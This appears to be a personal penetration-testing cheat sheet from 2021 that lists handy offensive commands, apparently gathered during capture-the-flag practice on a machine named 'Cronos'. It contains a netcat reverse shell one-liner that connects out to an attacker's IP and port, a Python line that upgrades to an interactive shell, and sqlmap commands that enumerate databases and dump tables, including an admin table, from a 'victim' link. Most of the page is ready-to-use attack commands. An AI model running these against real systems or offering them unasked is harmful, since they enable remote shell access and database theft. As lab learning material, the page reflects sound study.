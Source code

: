<link href="../../styles.module.css" rel="stylesheet">
<link rel="preconnect" href="https://fonts.googleapis.com">
<link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
<link href="https://fonts.googleapis.com/css2?family=Cedarville+Cursive&display=swap" rel="stylesheet">
<link rel="preconnect" href="https://fonts.googleapis.com">
<link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
<link href="https://fonts.googleapis.com/css2?family=Cedarville+Cursive&family=Zen+Tokyo+Zoo&display=swap" rel="stylesheet">
<link rel="preconnect" href="https://fonts.googleapis.com">
<link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
<link href="https://fonts.googleapis.com/css2?family=Cedarville+Cursive&family=Encode+Sans+SC&family=Zen+Tokyo+Zoo&display=swap" rel="stylesheet">


## <span class="copyright">Useful Shit<span style="float:right;">By Shatha Barqawi</span>

<br/><br/>

_________________________


<span class="date">Last Updated: 26/Aug/2021</span> 


<br/> 

### <span class="useful_shit subtitle">Most Reliable Reverse Shell Payload  
  ```console
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [ATTACKER'S IP ADDRESS] [PORT OF THE ATTACKER'S CHOOSING] >/tmp/f
  ```

 <br/><br/> 

### <span class="useful_shit subtitle">Python Script That Spawns a Shell When connecting to a Reverse Shell  
```console
python -c 'import pty;pty.spawn("/bin/bash");'
```
  <br/><br/> 

### <span class="useful_shit subtitle">SQLMAP  
* So I'm taking the machine "Cronos" as my example here because it's the first time I use `sqlmap` in.
* We can enumerate the databases names by writing the following line:
  ```console
  sqlmap -u [LINK OF VICTIM] --data='username=&password=' --method POST --dbs --batch
  ```
* In addition to the databases' names the previous line also provided me with the version of the SQL on the server. 
* `--batch` answers the questions for me with the default. 
<br/>
* We can also get the tables' names by writing the following line:
  ```console
  sqlmap -u [LINK OF VICTIM] --data="username=&password=" --method POST -D [DATABASE NAME] --dump all --batch
  ```
* When using this command I also got the content of the admin table. 
* Sqlmap seems to use the SQLi vulneribility in the application to gain access to:
  * Determine the schema of the database (database, table and column names).
  * Dump data from tables.
  * Potentially upload or download files to the database server machine.
  * Perform out-of-band tests.
  * Dump usernames, password hashes, privileges and roles.